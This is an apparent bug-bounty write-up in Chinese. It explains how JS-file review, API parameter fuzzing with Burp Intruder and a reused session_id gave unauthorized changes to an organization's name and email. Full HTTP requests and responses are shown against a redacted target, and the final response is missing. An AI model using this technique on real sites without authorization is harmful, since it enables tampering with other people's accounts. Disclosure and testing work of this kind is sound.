

# 利用 JS 文件检查与 Fuzz 进行越权操作

漏洞的发现是通过检查网站源代码中的 JS 文件，在这些 JS 文件中，发现了一些可疑 API 端点。通过 Fuzz 技术来确认这些 API 端点的参数，并最终对高权限 API 端点进行越权操作。  

# 好的，让我们现在开始吧！

在这个网站上，我们可以在所在的组织内创建项目。但是组织名称和电子邮件地址是无法更改的！如果想要更改它们，需要联系管理员或支持团队！



首先，当我检查 JS 文件时，发现了很多文件，但有一个特定的文件引起了我的注意，因为它包含了该网站使用的许多 API 端点的请求！该网站使用 API 系统地址是：

```plain
https://target.com/endpoints/organization/<ACTION>
```

在那个我提到的 JS 文件中，我发现了一个有趣的端点：

```plain
/endpoints/organization/update
```

JS 文件中源码如下

```plain
saveOrganization: async a => _({
            method: "PUT",
            endpoint: "/endpoints/organization/update",
            body: a
        }).then(r => n(r)),
```

我想知道这个端点在做什么。

所以我按照 JS 源码中的格式构造了一个数据包发送。就像下面这样。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: <https://home.target.com/>
Content-Type: application/json
Content-Length: 76
Origin: <https://home.target.com/>
```

返回了一个预期响应结果，因为我没有在 PUT 请求中添加任何数据。

```plain
HTTP/2 500 Internal Server Error

{"error": {"code": "500", "message": "A server error has occurred"}}
```

因此我决定发送一些随机数据 ({"hello":"goodbye"})，测试一下这个端点。

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"hello":"goodbye"}
```

```plain
HTTP/2 500 Internal Server Error]

{"message":"Error: This user does not have admin access!","type":"error"}
```

我在这个网站上搜索了将近 4，5 天，我知道哪些参数可能会是那个会话/令牌！！

这个令牌是必需的，并且在 API 端点的所有请求中使用。每个账户都有一个特定的令牌，但每个 API 端点都用不同的名称来调用该令牌，比如一个 API 端点调用它为 code，另一个 API 端点调用为 token，session，tokenId，session\_id，access，org\_id，id，org 或 user。

我还使用了一个名为 Param Miner 的 Burp 扩展，它会收集 Burp 历史记录中特定目标请求的所有参数。这对于清楚地提取这些参数名称非常有帮助！因此，我从一个随机请求中获取了一个令牌，并开始逐个使用所有这些参数名称发送它。

Boom！！最终！！我使用了自己的令牌的 session\_id！一切正常！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6zxxxxxxxxxllye4ul"}
```

```plain
HTTP/2 400 Bad Request
{"message":"No data to update"}
```

现在我的会话已成功验证！！服务器回复“没有数据需要更新”，这意味着它正在等待我提交一个值来进行更改！！

现在是时候对我可以更改的参数进行模糊测试了。显然，我在此过程中使用了字典来对参数进行 Fuzz：https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt。

将我的请求发送到 Burp 的 Intruder 中，粘贴了我的列表，发送了一个数据如下：{"session\_id":"9n5n6zdxxxxxxxx05llye4ul", "":"changevalueeeee"}

我开始进行模糊测试后的 3-4 分钟里，我注意到了不同的状态码和响应长度，我必须检查一下！在这里，我找到了一个允许我更改组织名称/电子邮件的请求！但这不允许！这个操作只能由管理员/支持人员执行！

```plain
PUT /endpoints/organization/update HTTP/2
Host: home.target.com
Cookie: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json
Referer: https://home.target.com/
Content-Type: application/json
Content-Length: 76
Origin: https://home.target.com/

{"session_id":"9n5n6xxxxxxxxxxc05llye4ul", "name":"changevalueeeee"}
```

```plain
HTTP/2 200 OK
{"billing_enabled":false,"billing_type":"trial","created_at":1676997471,"data_streams_plan":"starter","email_address":"xxxxxxxxxxx@xxxxxxxx.xxx","feature_flag":{"allow_usage_billing":false,"forever_free_tier":false},"first_non_auth_api_call_made":null,"id":"2lxxxxxxxxxxzf49rtjd8ia","invoices":null,"is_marketplace_org":false,"marketplace_id":null,"name":"changevalueeeee","stripe_customer_id":null,"trial_end_date":1678207071}
```

在我的响应中，我看到了"email\_address":"xxxxxxxxxxx@xxxxxxxx.xxx"，那是我的组织电子邮件地址，我无法更改它！！

我尝试将其发送到 POST 数据中并设置一个新的电子邮件地址，所以我发送了 email\_address 和 session\_id 以及 name。然后得到了：


就这样，成功 hack 了它。可以进行越权操作，修改组织的信息。